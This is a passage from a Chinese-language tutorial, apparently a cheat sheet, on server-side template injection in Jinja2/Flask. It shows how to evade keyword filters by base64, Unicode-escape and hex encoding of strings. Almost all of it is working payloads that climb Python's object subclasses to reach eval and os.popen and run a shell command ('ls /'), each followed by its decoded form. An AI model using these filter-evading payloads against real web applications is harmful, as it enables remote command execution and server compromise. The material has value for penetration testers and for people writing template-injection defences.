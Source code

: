 #### 利用编码绕过

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用base64编码绕过：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13、16进制编码等。

#### 利用Unicode编码绕过关键字（flask适用）

unicode编码绕过是一种网上没提出的方法。

我们可以利用unicode编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 利用Hex编码绕过关键字

和上面那个一样，只不过将Unicode编码换成了Hex编码，适用于过滤了“u”的情况。

我们可以利用hex编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
